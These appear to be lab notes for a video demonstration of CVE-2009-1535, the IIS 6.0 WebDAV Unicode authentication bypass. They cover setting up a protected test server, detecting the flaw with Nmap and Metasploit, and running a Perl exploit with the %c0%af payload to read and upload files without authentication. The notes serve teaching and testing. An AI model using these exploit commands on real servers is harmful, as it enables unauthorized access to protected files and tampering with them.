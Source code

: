 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass

Part 1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part 2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

CVE-2009-1535 IIS 6.0 WebDAV Unicode Authentication Bypass

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:
```
C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt
```
2. Enable WebDAV...
```
Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 
```
3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3
```
Option 2: using Metasploit module
```
msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass
```
Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
# echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
```
Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

```
# perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af
> path
```
Copy XML content to temp.html > open with Web browser

```
# perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
> source
```
```
# perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
> put  =>  /root/pm.txt
```

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

